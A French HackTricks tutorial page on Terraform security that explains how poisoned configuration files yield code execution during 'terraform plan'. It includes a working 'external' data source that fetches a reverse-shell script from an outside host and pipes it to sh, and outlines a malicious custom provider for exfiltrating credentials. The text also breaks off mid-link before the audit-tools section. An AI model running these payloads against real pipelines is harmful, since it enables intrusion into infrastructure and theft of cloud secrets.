 # Sécurité Terraform

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFT exclusifs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informations de base

HashiCorp Terraform est un outil d'**infrastructure en tant que code** qui vous permet de définir des ressources **cloud et sur site** dans des fichiers de configuration lisibles par l'homme que vous pouvez versionner, réutiliser et partager. Vous pouvez ensuite utiliser un flux de travail cohérent pour provisionner et gérer toute votre infrastructure tout au long de son cycle de vie. Terraform peut gérer des composants de bas niveau tels que les ressources de calcul, de stockage et de mise en réseau, ainsi que des composants de haut niveau tels que les entrées DNS et les fonctionnalités SaaS.

### Comment fonctionne Terraform ?

Terraform crée et gère des ressources sur des plateformes cloud et d'autres services via leurs interfaces de programmation d'applications (API). Les fournisseurs permettent à Terraform de fonctionner avec pratiquement toutes les plateformes ou services disposant d'une API accessible.

![](<../../.gitbook/assets/image (33).png>)

HashiCorp et la communauté Terraform ont déjà écrit **plus de 1700 fournisseurs** pour gérer des milliers de types de ressources et de services différents, et ce nombre continue de croître. Vous pouvez trouver tous les fournisseurs disponibles publiquement sur le [Terraform Registry](https://registry.terraform.io/), y compris Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, et bien d'autres.

Le flux de travail de base de Terraform se compose de trois étapes :

* **Écrire :** Vous définissez des ressources, qui peuvent être réparties sur plusieurs fournisseurs et services cloud. Par exemple, vous pouvez créer une configuration pour déployer une application sur des machines virtuelles dans un réseau Virtual Private Cloud (VPC) avec des groupes de sécurité et un équilibreur de charge.
* **Plan :** Terraform crée un plan d'exécution décrivant l'infrastructure qu'il va créer, mettre à jour ou détruire en fonction de l'infrastructure existante et de votre configuration.
* **Appliquer :** Sur approbation, Terraform effectue les opérations proposées dans l'ordre correct, en respectant les dépendances de ressources. Par exemple, si vous mettez à jour les propriétés d'un VPC et que vous modifiez le nombre de machines virtuelles dans ce VPC, Terraform recréera le VPC avant de mettre à l'échelle les machines virtuelles.

![](<../../.gitbook/assets/image (81).png>)

### Terraform Enterprise

Terraform Enterprise vous permet d'**exécuter des commandes** telles que `terraform plan` ou `terraform apply` à distance dans une **version auto-hébergée de Terraform Cloud**. Par conséquent, si vous trouvez la **clé API** pour accéder à ce serveur Terraform, vous pouvez le **compromettre**.\
Pour plus d'informations, consultez :

{% content-ref url="terraform-enterprise-security.md" %}
[terraform-enterprise-security.md](terraform-enterprise-security.md)
{% endcontent-ref %}

## Laboratoire Terraform

Il suffit d'installer terraform sur votre ordinateur.

Voici un [guide](https://learn.hashicorp.com/tutorials/terraform/install-cli) et voici la [meilleure façon de télécharger terraform](https://www.terraform.io/downloads).

## RCE dans Terraform

Terraform n'a pas de plateforme exposant une page web ou un service réseau que nous pouvons énumérer, par conséquent, la seule façon de compromettre terraform est de **pouvoir ajouter/modifier des fichiers de configuration terraform**.

Cependant, terraform est un composant **très sensible** à compromettre car il aura un **accès privilégié** à différents emplacements pour pouvoir fonctionner correctement.

La principale façon pour un attaquant de pouvoir compromettre le système où terraform est en cours d'exécution est de **compromettre le référentiel qui stocke les configurations terraform**, car à un moment donné, elles vont être **interprétées**.

En fait, il existe des solutions qui **exécutent automatiquement terraform plan/apply après la création d'un PR**, telles que **Atlantis** :

{% content-ref url="../atlantis-security.md" %}
[atlantis-security.md](../atlantis-security.md)
{% endcontent-ref %}

Si vous êtes capable de compromettre un fichier terraform, il existe différentes façons de réaliser une RCE lorsque quelqu'un exécute `terraform plan` ou `terraform apply`.

### Terraform plan

Terraform plan est la **commande la plus utilisée** dans terraform et les développeurs/solutions utilisant terraform l'appellent tout le temps, donc le **moyen le plus facile d'obtenir une RCE** est de vous assurer que vous empoisonnez un fichier de configuration terraform qui exécutera des commandes arbitraires dans un `terraform plan`.

#### Utilisation d'un fournisseur externe

Terraform offre le fournisseur [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs), qui fournit un moyen d'interfacer entre Terraform et des programmes externes. Vous pouvez utiliser la source de données `external` pour exécuter du code arbitraire pendant un `plan`.

L'injection dans un fichier de configuration terraform de quelque chose comme ce qui suit exécutera un shell rev lors de l'exécution de `terraform plan` :

```javascript
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

#### Utilisation d'un fournisseur personnalisé

N'importe qui peut écrire un [fournisseur personnalisé](https://learn.hashicorp.com/tutorials/terraform/provider-setup) et le publier sur le [Terraform Registry](https://registry.terraform.io/). Vous pouvez également essayer de tirer un fournisseur personnalisé d'un registre privé.

C'est tout :

* écrire un fournisseur personnalisé qui exécute un code malveillant (comme l'exfiltration de données d'identification ou de clients)
  * publiez-le sur le Terraform Registry
  * ajoutez le fournisseur au code Terraform dans une branche de fonctionnalité
  * ouvrez une PR pour la branche de fonctionnalité

```javascript
 terraform {
        required_providers {
            evil = {
                source  = "evil/evil"
                    version = "1.0"
            }
        }
    }

provider "evil" {}
```

Comme le fournisseur sera extrait pendant l'`init` et exécutera du code pendant le `plan`, vous avez une exécution de code arbitraire.

Vous pouvez trouver un exemple dans [https://github.com/rung/terraform
## Outils d'audit

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utilise l'analyse statique de votre code terraform pour repérer les configurations incorrectes potentielles.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan est un analyseur de code statique pour l'Infrastructure en tant que Code.

## Références

* [Atlantis Security](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>